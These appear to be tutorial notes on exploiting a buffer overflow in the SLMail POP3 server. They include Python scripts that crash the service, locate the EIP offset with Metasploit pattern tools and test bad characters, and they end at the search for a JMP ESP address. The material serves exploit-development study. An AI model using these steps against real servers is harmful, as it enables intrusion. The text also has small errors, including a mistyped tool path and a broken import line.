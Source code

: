 # Win32 Buffer Overflow Exploitation

### Replicating the Crash

  - Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

    ```python
    #!/usr/bin/python
    import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    buffer = 'A' * 2700
    try:
      print "\nSending evil buffer..."
      s.connect(('10.0.0.22',110))
      data = s.recv(1024)
      s.send('USER username' +'\r\n')
      data = s.recv(1024)
      s.send('PASS ' + buffer + '\r\n')
      print "\nDone!."
    except:
      print "Could not connect to POP3!"
    ```

### Controlling EIP

  - Getting control of the EIP register is a crucial step of exploit development.

  - For this reason, it is vital that we locate those 4 A’s that overwrite our EIP register in the buffer.
  - There are two common ways to do this:

    #### Binary Tree Analysis

      - Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
      - If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
      - We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
      - If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
      - We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
      - Mathematically, this should happen in seven iterations.

    #### Sending a Unique String

      - The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
      - __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

        ```shell
        > locate pattern_create
        > /usr/share/metasploit-framework/tools/patte_create.rb 2700
        ```

      - We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.
      ![EIP Overwritten by the Unique Pattern](/images/34.png)
        ```shell
        > /usr/share/metasploit-framework/tools/pattern_offset.rb 39694438
        # running resutl :[*] Exact match at offset 2606
        ```

      - The pattern_offset.rb script reports these 4 bytes being located at offset 2606 of the 2700 bytes.
      - Let’s translate this to a new modified buffer string, and see if we can control the EIP register. We modify our exploit to contain the following buffer string

          ```python
          buffer = "A" * 2606 + "B" * 4 + "C" * 90
          ```

          ![EIP is Controlled](/images/35.png)

        - Sending this new buffer to the SLMail POP3 server produces the following crash in our debugger. Once again, take note of the ESP and EIP registers.
        - This time, the ESP has a different value than our first crash. The EIP register is cleanly overwritten by B’s (\x42), signifying that our calculations were correct, and we can now control the execution flow of the SLMail application.

      - Where, exactly, do we redirect the execution flow, now that we control the EIP register?
      - Part of our buffer can contain the code (or shellcode) we would like to have executed by the SLMail application, such as a reverse shell.

### Locating Space for Your Shellcode

  - The Metasploit Framework can automatically generate shellcode payloads.
  - A standard reverse shell payload requires about 350-400 bytes of space.
  - Looking back at the last crash, we can see that the ESP register points directly to the beginning of our buffer of C’s.

  ![ESP is Pointing to the Buffer of C'ʹs](/images/36.png)
  - However, on counting those C’s, we notice that we have a total of 74 of them – not enough to contain a 350-byte payload.
  - One easy way out of this is simply to try to increase our buffer length from 2700 bytes to 3500 bytes, and see if this results in a larger buffer space for our shellcode.

    ```python
    buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
    ```

  ![Our Increased Buffer Length is Successful](/images/37.png)

### Checking for Bad Characters

  - Depending on the application, vulnerability type, and protocols in use, there may be certain characters that are considered “bad” and should not be used in your buffer, return address, or shellcode.
  - One example of a common bad character (especially in buffer overflows caused by unchecked string copy operations) is the null byte (0x00).
  - This character is considered bad because a null byte is also used to terminate a string copy operation, which would effectively truncate our buffer to wherever the first null byte appears.
  - Another example of a bad character, specific to the POP3 PASS command, is thecarriage return (0x0D), which signifies to the application that the end of the password has been reached.
  - #### An easy way to do this is to send all possible characters, from 0x00 to 0xff, as part of our buffer, and see how these characters are dealt with by the application, after the crash occurs.

  ```python
  #!/usr/bin/python
  import socket
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

  buffer="A"*2606 + "B"*4 + badchars

  try:
    print "\nSending evil buffer..."
    s.connect(('10.0.0.22',110))
    data = s.recv(1024)
    s.send('USER username' +'\r\n')
    data  = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    s.close()
    print "\nDone!"
  except:
    print "Could not connect to POP3!"
  ```
  - The resulting memory dump for the ESP register shows that the character 0x0A seems to have truncated the rest of the buffer that comes after it.
  ![The Buffer is Truncated](/images/38.png)
  - We remove the \x0A character from our list, and resend the payload. Looking at the resulting buffer, in memory, we see the following output, in the debugger
  ![Our Buffer is Still Corrupted](/images/39.png)
  - The only other problem we see occurs between 0x0C and 0x0E, which means that the character 0x0D is the culprit, but we should have already anticipated this. All the other characters seem to have no issues with SLMail, and do not get truncated, or mangled.
  - To summarize, our buffer should not include in any way the following characters: 0x00, 0x0A, 0x0D.

### Redirecting the Execution Flow

  - Our next task is finding a way to redirect the execution flow to the shellcode located at the memory address that the ESP register is pointing to, at crash time.
  - The most intuitive thing to do would be to try replacing the B’s that overwrite EIP with the address that pops up in the ESP register, at the time of the crash.
  - However, as you should have noticed from the past few debugger restarts, the value of ESP changes, from crash to crash. Therefore, hardcoding a specific stack address would not provide a reliable way of getting to our buffer.
  - This is because stack addresses change often, especially in threaded applications such as SLMail, as each thread has its reserved stack memory region allocated by the operating system.

    #### Finding a Return Address

    - If we can find an accessible, reliable address in memory that contains an instruction such as __JMP ESP__, we could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump.
    - If we can find an accessible, reliable address in memory that contains an instruction such as JMP ESP, we could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump.
